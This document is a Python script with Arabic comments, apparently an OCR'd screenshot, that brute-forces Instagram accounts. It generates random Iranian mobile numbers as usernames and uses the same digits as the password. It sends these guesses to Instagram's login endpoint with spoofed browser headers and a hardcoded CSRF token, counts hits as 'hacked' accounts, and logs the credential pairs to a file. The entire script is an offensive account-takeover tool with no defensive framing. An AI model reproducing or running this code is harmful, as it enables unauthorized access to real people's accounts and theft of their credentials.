 import requests import random import os import time from user_agent import * #هنا ستدعيت المكاتب المهمه . Z = '\x1b[1;31m' C = '\x1b[1;33m' F = '\x1b[2;32m' B = '\x1b[2;36m' V = '\x1b[1;90m' X = '\x1b[1;33m' W = "\033[1;97m" #@YiYYYYYY #ضفت سورس الالوان مومهم يلونلك لنص الي تريد تطبيق k = 0 a = 0 num = "0123456789" while True : pas = str(''.join(random.choice(num) for i in range(7))) user = "+98911"+pas # هاذ رنج خليته يفحص عشوائي من مكتبه راندوم من خلال متغير num + خليته صيد ع ايران . url = "https://www.instagram.com/accounts/login/ajax/" #ضفت تسجيل دخول انستا headers = {"accept": "*/*", "accept-encoding": "gzip, deflate, br", "accept-language": "ar-AE,ar;q=0.9,en-US;q=0.8,en;q=0.7", "content-length": '310', 'content-type': "application/x-www-form-urlencoded", "cookie": "mid=YmTJPgABAAFqFJ2tC46sFXUTkYPz; ig_did=1D78DBC0-31A5-49B2-A902-F60C969B2724; ig_nrcb=1", 'origin': "https://www.instagram.com", "referer": "https://www.instagram.com/","sec-ch-ua": '" Not A;Brand";v="99", "Chromium";v="101"', "sec-ch-ua-mobile": "?1", "sec-ch-ua-platform": "Android", 'sec-fetch-dest': 'empty', 'sec-fetch-mode': 'cors', "sec-fetch-site": "same-origin", 'user-agent': generate_user_agent(), 'x-asbd-id': "198387", 'x-csrftoken': '1FKeQOtZ6tamLwgnsny0SyVePPVFc5lo','x-ig-app-id': '1217981644879628', "x-ig-www-claim": "0", "x-instagram-ajax": "7b5a9e5bdef7", "x-requested-with": "XMLHttpRequest",} #هذا الاتصالات الي من خلاله تصيد . tim = str(time.time()).split('.')[1] date = {'username': user,'enc_password': f'#PWD_INSTAGRAM_BROWSER:0:{tim}:{pas}',} #هذا الداتا حكت لموقع . req = requests.post(url, headers=headers , data=date).text #هنا سويت تسجيل دخول للموقع if 'userId' in req: os.system('clear') a+=1 print(f'{W}- Haking Acaunt >> {k}\n- Done Acaunt >> {a} \n- UserName >> {user}\n- PassWord >> {pas}') else: k+=1 os.system('clear') print(f'{W}- Haking Acaunt >> {k}\n- Done Acaunt >> {a} \n- UserName >> {user}\n- PassWord >> {pas}') #هنا سويت برنت وعدادات الصيد . with open('Logoniran.txt','a') as fi: fi.write(f'{user}:{pas}\n') #اخويه 
